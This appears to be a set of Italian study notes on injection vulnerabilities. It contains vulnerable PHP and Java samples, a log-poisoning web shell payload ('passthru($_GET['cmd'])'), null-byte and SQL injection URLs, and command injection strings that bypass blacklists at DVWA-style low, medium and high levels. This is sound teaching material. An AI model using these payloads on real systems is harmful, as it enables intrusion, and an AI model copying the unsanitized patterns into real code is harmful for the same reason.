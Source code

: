 ## Command injection

- http://www.scribd.com/doc/2530476/Php-Endangers-Remote-Code-Execution
- https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection

I valori inseriti dall'utente non vengono opportunamente sanitizzati lato server.

> https://www.exploit-db.com/papers/13073

`submit.php`

```
<form method="POST" action="">
	<textarea rows="10" name="comments" cols="60"></textarea>
	<p><input type="submit" value="Post" name="sub"></p>
</form>
```

`comments.php`

```
$comments = $_POST['comments'];

$log = fopen('comments.php','a');
fwrite($log,'<br />'.'<br />.'<center>'.'Comments::'.'<br />'.$comments);
fclose($log);
```

L'input dell'utente non viene sanitizzato.

L'attaccante può sfruttare questa vulnerabilità per eseguire comandi come `phpinfo();`.

`info.php`

```
<?php
$msg = $_GET['msg'];
$ip = getenv('REMOTE_ADDR');
$error = fopen('errorlog.php','a');
fwrite($error,'<br />'.$msg.'<br />'.$ip.'<br />');
fclose($error);
?>
```

L'attaccante inserisce il codice `<? passthru($_GET['cmd']); ?>` nel file di log `errorlog.php`.
Quando il file di log viene richiesto passando col parametro `cmd` il comando `command`, quest'ultimo viene eseguito.

`http://victim.xxx/info.php?msg=<? passthru($_GET['cmd']); ?>`

`http://victim.xxx/errorlog.php?cmd=<command>`

**Null Byte Injection**

`include.php`

```
<?php
	$file = $_GET['file'];
	include('$file.php');
?>
```

L'attaccante esclude `.php` dal nome del file inserendo il terminatore `%00` nell'URL visitata.

`http://victim.xxx/include.php?file=secret.txt%00`

> https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection

```
String query = "SELECT * FROM accounts WHERE custID='" + request.getParameter("id") + "'";
```

oppure

```
Query HQLQuery = session.createQuery("FROM accounts WHERE custID='" + request.getParameter("id") + "'");
```

L'attaccante invia come parametro id il valore `' or '1'='1`, che cambia il significato della query.

`http://example.com/app/accountView?id=' or '1'='1`

### Command injection - Low

```
// *nix
$cmd = shell_exec( 'ping  -c 4 ' . $target );
```

- inietta il comando CMD inserendo i seguenti valori:

	- `8.8.8.8; CMD`

### Command injection - Medium

```
// Set blacklist
$substitutions = array(
	'&&' => '',
	';'  => '',
);

// Remove any of the charactars in the array (blacklist).
$target = str_replace( array_keys( $substitutions ), $substitutions, $target ); 
```

- inietta il comando CMD inserendo i seguenti valori:

	- `8.8.8.8 | CMD`

### Command injection - High

```
// Set blacklist
$substitutions = array(
'&'  => '',
';'  => '',
'| ' => '',
'-'  => '',
'$'  => '',
'('  => '',
')'  => '',
'`'  => '',
'||' => '',
);

// Remove any of the charactars in the array (blacklist).
$target = str_replace( array_keys( $substitutions ), $substitutions, $target );
```

- inietta il comando CMD inserendo i seguenti valori:

	- `8.8.8.8 |CMD`

